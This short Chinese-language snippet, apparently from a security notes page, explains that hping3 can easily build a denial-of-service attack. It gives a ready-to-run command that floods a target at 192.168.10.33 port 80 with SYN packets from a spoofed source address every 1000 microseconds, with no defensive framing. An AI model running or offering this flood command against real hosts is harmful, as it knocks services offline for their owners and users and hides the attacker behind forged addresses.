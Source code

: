 #ss


使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。
```
hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```
![](/pics/screencapture-blog-csdn-net-freeking101-article-details-72582964-2020-09-10-14_00_51.png)